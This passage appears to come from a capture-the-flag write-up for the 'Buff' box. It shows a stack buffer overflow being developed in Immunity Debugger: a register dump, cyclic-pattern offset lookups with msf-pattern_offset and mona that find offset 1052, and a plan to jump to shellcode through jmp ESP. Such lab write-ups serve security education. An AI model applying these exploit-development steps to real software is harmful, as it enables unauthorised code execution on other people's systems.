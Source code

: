 Buffer overflow showing ascii characters in instruction pointer rip

We can confirm the address that is causing the exception by looking at the values in the registers which are listed in Immunity's register window:

```bash
EAX 00000001
ECX 77597084 msvcrt.77597084
EDX 0DE00000
EBX 69423569
ESP 00A3D3E0 ASCII "Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk
    3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm
    0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn
    7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp
    4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9
EBP 6A423969
ESI 37694236
EDI 42386942
EIP 316A4230
```

This shows the pattern on the stack pointed to by ESP and the instruction pointer EIP has 316A4230. If we use msf-pattern\_offset to find out the offset, we find it is at 1052

```bash
┌─[rin@parrot]─[~/boxes/Buff]
└──╼ $msf-pattern_offset -q 316A4230 -l 1500
[*] Exact match at offset 1052
```

In mona in Immunity, we can do the same thing with 

```bash
!mona pattern_offset 0x316a4230: Pattern 0Bj1 (0x316a4230) 
found in cyclic pattern at position 1052
```

Now that we know how to overwrite the instruction pointer held in EIP, the plan is to execute shell code from the stack by using a jmp ESP instruction which will jump to, as in execute, the address pointed to by the register ESP. We can use mona to search for this instruction by using !mona jmp -r ESP.
